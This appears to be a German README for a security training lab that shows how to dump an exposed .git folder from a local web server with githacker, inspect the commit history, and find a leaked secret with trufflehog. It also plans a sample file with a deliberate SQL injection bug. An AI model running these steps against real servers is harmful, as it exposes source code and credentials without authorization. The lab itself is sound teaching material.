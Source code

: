 # Lab: Git Hacking

# Build das Image (im Ordner webapp/)
docker build -t lab/git-hacking .

# Starte den Container (interaktiv mit Shell für Student)
docker run -it lab/git-hacking

# Walkthrough

```shell
# Prüfe der beispielhafte Webserver, der auf localhost:8000 erreichbar ist
curl http://localhost:8000
# /config kann nicht abgerufen werden
curl http://localhost:8000/config
# Prüfe, ob der .git Ordner eventuell verfügbar ist
curl http://localhost:8000/.git/config
# Exploite den Server mit "githacker", um den .git Ordner zu erlangen
githacker --url http://localhost:8000 --output-folder git-hack

# Betrachte die erbeuteten Daten
cd git-hack
ls -la
cd "$(ls)"
# Inspiziere das Git-Repository - githacker hat es bereits ausgecheckt und Dateien rekonstruiert
ls -la
# Verifiziere, dass die gesamte Commit-History verfügbar ist
git log

# Bestätige, dass aktuell keine sensiblen Daten enthalten sind
batcat *
batcat config/*
# Führe trufflehog aus - ein Secret wird in einem vergangenen Commit entdeckt
trufflehog git file://.

# TODO: Add additional step to run Bandit on Python code
#       Introduce sample.py file with an obvious SQL Injection bug.
```
